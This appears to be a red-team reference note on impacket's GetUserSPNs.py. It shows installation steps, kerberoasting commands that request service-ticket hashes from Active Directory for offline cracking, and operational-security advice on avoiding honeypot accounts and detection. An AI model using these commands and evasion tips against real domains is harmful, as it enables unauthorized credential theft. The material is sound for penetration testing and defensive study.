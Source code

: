 ```yaml
---
aliases:
  - impacket-GetUserSPNs
tags:
  - ⚔️Tool
  - T1558003
primary categories:
  - "[[01 - Red Team]]"
  - "[[01 - Penetration Test]]"
secondary categories:
  - "[[02 - Active Directory]]"
  - "[[02 - Credential Harvesting]]"
  - "[[02 - Kerberoasting]]"
  - "[[02 - Post-Exploitation]]"
type: Tool
---
```

# [[GetUserSPNs.py]]

***

## Overview

[`GetUserSPNs.py`](https://github.com/fortra/impacket/blob/master/examples/GetUserSPNs.py) is a tool from the [Impacket](https://github.com/fortra/impacket) [Python](https://www.python.org/) module collection that automates [kerberoasting](https://attack.mitre.org/techniques/T1558/003/) attacks against user accounts associated with [service principal names (SPNs)](https://learn.microsoft.com/en-us/windows/win32/ad/service-principal-names) in [Active Directory (AD)](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/get-started/virtual-dc/active-directory-domain-services-overview)[^1][^2]. If the service account password used to encrypt the returned [ticket-granting service (TGS)](https://csrc.nist.gov/glossary/term/tgs) ticket is weak, an attacker can recover its plaintext password by cracking the TGS hash output from `GetUserSPNs.py`.

## Requirements

* [ ] Attacker is on a \*nix-like machine with access to the target AD network
* [ ] Attacker has valid AD credentials
* [ ] Target user(s) are vulnerable to kerberoasting
	* [ ] Target user object(s) have a non-null  `servicePrincipalName` attribute

## Installation/Compilation

Before installing `GetUserSPNs.py`, ensure Python is installed:
```
# Debian/Ubuntu
sudo apt install python3

# Fedora
sudo dnf install python3
```

The easiest way to install `GetUserSPNs.py` is by installing the Impacket library via `pip`:
```
pip install impacket
```

Alternatively, clone the Impacket repository and install it locally:
```
git clone https://github.com/fortra/impacket.git
cd impacket
pip install .
```

On [Kali Linux](https://www.kali.org/), you can install the [impacket-scripts](https://www.kali.org/tools/impacket-scripts/) package. This makes the tools accessible in your `$PATH`, prefixed with `impacket-`:
```
sudo apt install impacket-scripts

impacket-GetUserSPNs -h
```

## Usage

Kerberoast all vulnerable users in a domain (you will be prompted for a password):
```
GetUserSPNs.py -request -dc-ip <dc-ipv4-address> <domain.full>/<user>
```

Kerberoast all vulnerable users and dump the output to a file:
```
GetUserSPNs.py -request -dc-ip <dc-ipv4-address> -outputfile <filename> <domain.full>/<user>
```

After retrieving a TGS ticket, you can attempt to crack the service account password using [Hashcat](https://hashcat.net/hashcat/) or [John the Ripper](https://www.openwall.com/john/).

## Operational Security (OPSEC)

Requesting TGS tickets for every SPN in a domain will likely raise alerts, especially if one or more SPNs are positioned as [honeypots](https://csrc.nist.gov/glossary/term/honeypot), accounts intentionally configured to detect kerberoasting attempts[^3]. These honeypot SPNs often appear legitimate but are closely monitored.

```
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
Password:
ServicePrincipalName          Name         MemberOf  PasswordLastSet            LastLogon  Delegation
----------------------------  -----------  --------  -------------------------  ---------  ---------
MSSQLSvc/sql.domain.com:1433  mssql_svc              XXXX-XX-XX XX:XX:XX.XXXXX  <never>
HoneySvc/fake.domain.com      honey_svc              XXXX-XX-XX XX:XX:XX.XXXXX  <never>
```

If possible, ensure the requesting account appears plausible to a defender. For example, a sales employee requesting a TGS for a [Microsoft SQL Server](https://www.microsoft.com/en-us/sql-server) service is suspicious; using an IT or data steward account would appear more legitimate.

Additionally, avoid requesting all SPNs in bulk. Multiple SPN requests in a short window will appear as anomalous on a defender's radar, possibly leading to detection[^4]. Instead, identify individual accounts vulnerable to kerberoasting using [BloodHound](https://github.com/SpecterOps/BloodHound) or a similar tool, then request TGS tickets for a single target:
```
GetUserSPNs.py -request-user <target-user> -dc-ip <dc-ipv4-address> -outputfile <filename> <domain.full>/<user>
```

TODO: Add discussion about encryption types, the `(servicePrincipalName=*)` LDAP query, and ticket request parameters.

## Under-the-Hood

TODO: Inspect `GetUserSPNs.py` source code, analyze ticket exchanges in [Wireshark](https://www.wireshark.org/), and document detailed function flow.

## Help Menu

```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

usage: GetUserSPNs.py [-h] [-target-domain TARGET_DOMAIN] [-no-preauth NO_PREAUTH] [-stealth] [-usersfile USERSFILE] [-request] [-request-user username] [-save] [-outputfile OUTPUTFILE] [-ts] [-debug] [-hashes LMHASH:NTHASH] [-no-pass] [-k]
                      [-aesKey hex key] [-dc-ip ip address] [-dc-host hostname]
                      target

Queries target domain for SPNs that are running under a user account

positional arguments:
  target                domain[/username[:password]]

options:
  -h, --help            show this help message and exit
  -target-domain TARGET_DOMAIN
                        Domain to query/request if different than the domain of the user. Allows for Kerberoasting across trusts.
  -no-preauth NO_PREAUTH
                        account that does not require preauth, to obtain Service Ticket through the AS
  -stealth              Removes the (servicePrincipalName=*) filter from the LDAP query for added stealth. May cause huge memory consumption / errors on large domains.
  -usersfile USERSFILE  File with user per line to test
  -request              Requests TGS for users and output them in JtR/hashcat format (default False)
  -request-user username
                        Requests TGS for the SPN associated to the user specified (just the username, no domain needed)
  -save                 Saves TGS requested to disk. Format is <username>.ccache. Auto selects -request
  -outputfile OUTPUTFILE
                        Output filename to write ciphers in JtR/hashcat format. Auto selects -request
  -ts                   Adds timestamp to every logging output.
  -debug                Turn DEBUG output ON

authentication:
  -hashes LMHASH:NTHASH
                        NTLM hashes, format is LMHASH:NTHASH
  -no-pass              don't ask for password (useful for -k)
  -k                    Use Kerberos authentication. Grabs credentials from ccache file (KRB5CCNAME) based on target parameters. If valid credentials cannot be found, it will use the ones specified in the command line
  -aesKey hex key       AES key to use for Kerberos Authentication (128 or 256 bits)

connection:
  -dc-ip ip address     IP Address of the domain controller. If ommited it use the domain part (FQDN) specified in the target parameter. Ignoredif -target-domain is specified.
  -dc-host hostname     Hostname of the domain controller to use. If ommited, the domain part (FQDN) specified in the account parameter will be used
```

***
## Resources

| Hyperlink                                                                                        | Info                                                   |
| ------------------------------------------------------------------------------------------------ | ------------------------------------------------------ |
| [GitHub - Impacket](https://github.com/fortra/impacket)                                          | GitHub repository for Impacket Python class collection |
| [Steal or Forge Kerberos Tickets: Kerberoasting](https://attack.mitre.org/techniques/T1558/003/) | MITRE ATT&CK entry for "Kerberoasting"                 |

[^1]: https://youtu.be/PUyhlN-E5MU
[^2]: https://posts.specterops.io/kerberoasting-revisited-d434351bd4d1
[^3]: https://adsecurity.org/?p=3513
[^4]: https://research.splunk.com/endpoint/eb3e6702-8936-11ec-98fe-acde48001122/

***

*Created Date*: <%+tp.file.creation_date("MMMM Do YYYY (HH:mm a)")%>  
*Last Modified Date*: <%+tp.file.last_modified_date("MMMM Do YYYY (HH:mm a)")%>
